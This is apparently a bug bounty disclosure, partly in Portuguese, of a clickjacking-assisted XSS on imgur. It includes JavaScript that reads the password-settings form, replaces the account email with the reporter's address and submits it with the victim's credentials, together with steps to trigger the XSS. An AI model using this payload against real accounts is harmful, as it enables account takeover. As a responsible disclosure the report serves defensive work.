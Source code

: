 Video:  
{F856533}

Para conseguir o account takeover usando esse XSS ainda é necessario abrir uma nova window com `window.open("https://imgur.com/account/settings/password
","_blank")` e depois implementar o seguinte código para conseguir ler os dados presentes nos inputs:

```
  forms = ifr.contentDocument.getElementsByTagName("form")[5];
        inputs = forms.getElementsByTagName("input");body = "";
        for(var i =0; i < inputs.length; i++){
          if(inputs[i].name=="email"){
              inputs[i].value="keerok%40protonmail.com";
          }
          body +=inputs[i].name+"="+inputs[i].value+"&";
        }
        body += "_jafo%5BactiveExperiments%5D=%5B%5D&_jafo%5BexperimentData%5D=%7B%7D";

        await fetch("https://imgur.com/account/settings/password", {
          "credentials": "include",
          "headers": {
              "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
              "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3",
              "Content-Type": "application/x-www-form-urlencoded",
              "Upgrade-Insecure-Requests": "1"
          },
          "referrer": "https://imgur.com/account/settings/password",
          "body": body,
          "method": "POST",
          "mode": "cors"
        });
```


Using the same clickjacking trick it is possible to get another xss with less user interaction, I will put this other method in the comments


# Steps to reprocuce - whitout account takeover
1. click in click here
2. drag the image to the text "drag image here"
3. copy the red text to "paste here"
4. press enter or click in any other local of the page
5. XSS will be triggered

## Impact

Account takeover and the attacker can perform malicious action in the victim account

## Attachments
- imgur_poc.mov
